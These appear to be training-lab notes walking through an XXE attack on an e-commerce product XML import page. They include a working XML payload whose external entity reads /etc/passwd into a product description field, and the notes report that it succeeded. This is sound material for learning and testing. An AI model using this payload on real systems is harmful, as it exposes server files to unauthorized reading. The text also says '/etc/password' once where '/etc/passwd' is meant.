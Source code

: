 ![[Pasted image 20240930181435.png]]

There is one result. It seems the application did process our XML successfully.

![[Pasted image 20240930181844.png]]

Unfortunately, this page does not include the "longDescription" field. Let's click on the Product ID and then click on `Content`. We may need to scroll down to find the Long Description value.

![[Pasted image 20240930182115.png]]

![[Pasted image 20240930182126.png]]

Very nice. The application processed our payload and updated the Long Description field to the value of our internal entity. Now that we know the application is vulnerable, we will revise our payload to extract data from a file on the server.


--------------
#### 10.4.3. Exploitation

Let's change our payload to an external entity and attempt to access /etc/passwd. We'll switch our browser tab back to the XML Data Import page and update our XML payload to use an external entity as shown below.

```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```

Let's click `Import Text` to submit this payload. After the page refreshes, we'll switch tabs and refresh the product details page.

Excellent! Our XXE attack was successful and the long description field now contains the contents of /etc/password. We were able to use the XXE vulnerability to access files from the server. Note that the user profile running the application will generally dictate which files we can access on the server.

![[Pasted image 20240930184224.png]]

![[Pasted image 20240930184538.png]]

